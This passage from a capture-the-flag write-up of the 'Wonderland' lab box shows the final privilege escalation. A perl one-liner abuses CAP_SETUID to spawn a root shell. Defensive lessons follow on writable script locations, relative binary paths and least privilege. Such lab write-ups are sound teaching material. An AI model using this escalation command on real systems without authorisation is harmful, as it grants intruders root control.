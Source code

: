 While our UID is set to hatter, our GID is still set to rabbit (remember that our current session is in the bash script launched by teaParty from a bash script launched by alice's python script...) - but we need the hatter GID to execute `/usr/bin/perl` This is why we were given Hatter's password - su to hatter and try the exploit again : 

```console
hatter@wonderland:~$ id
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

The root flag is at `/home/alice/root.txt` and the user flag is at `/root/user.txt` (yes, everything is upside down - curiouser and curiouser...) 

## 5. Summary and recommendations

Ignoring the CTFy stuff (steghidden clues, clear text passwords in the web app,  exploitable binaries in user's home directories, etc.), the box has two main lessons for the defensive side of things :

* **Context of privileged actions** : The alice -> rabbit privesc relies the `walrus_and_the_carpenter.py` script being hosted in a writeable directory. The use of absolute path's in the sudoers entry is a good attempt to avoid PATH hijacking and python's use of sys.path to resolve imports in the cwd is not realistically avoidable. The problem here is that a privileged action is performed in a non-privileged context (`/home/alice` is writeable by alice) - hosting the script in a privileged, non-writeable context would have avoided any possibility of injection, import hijacking, etc.

* **Defensive/Secure programming** : The rabbit -> hatter privesc relies on the relative path to the date binary - this could have been avoided completely by specifying the absolute path to /bin/date 

* **Principle of least privilege** : The hatter -> root privesc relies on an interpreter with CAP_SETUID being executable by members of the hatter group. It is trivial to leverage CAP_SETUID capabilities on an interpreter to a root shell - this is probably not what was intended when scoping hatter's privileges for `/usr/bin/perl`. This is likely a case of misunderstanding what binaries are capable of with elevated privileges : when scoping privileges on system binaries, [gtobins](https://gtfobins.github.io/) is a great place to start.